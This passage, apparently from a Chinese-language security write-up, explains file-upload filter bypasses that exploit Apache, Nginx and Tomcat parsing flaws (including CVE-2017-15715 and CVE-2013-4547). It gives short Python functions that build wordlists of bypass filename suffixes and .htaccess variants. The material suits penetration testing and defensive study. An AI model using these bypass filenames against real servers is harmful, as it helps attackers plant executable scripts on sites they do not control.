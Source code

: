### 4.2 apache

apache相关的解析漏洞有两个：

1. %0a(CVE-2017-15715)
2. 未知后缀 test.php.xxx

根据以上构造`apache_suffix_builder`函数生成规则

```
def apache_suffix_creater(suffix):
	res = []
	for l in suffix:
		str = '%s.xxx' % l
		res.append(str)
		str = '%s%s' % (l,urllib.unquote('%0a')) #CVE-2017-15715
		res.append(str)
	return res
```

### 4.3 nginx

nginx解析漏洞有三个：

1. 访问连接加/xxx.php test.jpg/xxx.php
2. 畸形解析漏洞 test.jpg%00xxx.php
3. CVE-2013-4547 test.jpg(非编码空格)\0x.php

nginx的解析漏洞，由于和上传的文件名无关，故生成字典无需考虑。

### 4.4 tomcat

tomcat用于上传绕过的有三种,不过限制在windows操作系统下。

1. xxx.jsp/
2. xxx.jsp%20
3. xxx.jsp::$DATA

根据以上规则生成字典对应的代码为：

```
win_tomcat = ['%20','::$DATA','/']
def tomcat_suffix_creater(suffix):
	res = []
	for l in suffix:
		for t in win_tomcat:
			str = '%s%s' % (l,t)
			res.append(str)
	return res
```

如果确定中间件为apache,可以加入.htaccess。同时如果操作系统还为windows，我们可以大小写混合。

```
if (middleware == 'apache' or middleware == 'all') and (os == 'win' or os == 'all'):
	htaccess_suffix = uperTest(".htaccess")
elif (middleware == 'apache' or middleware == 'all') and os == 'linux':
	htaccess_suffix = ['.htaccess']
else:
	htaccess_suffix = []
```
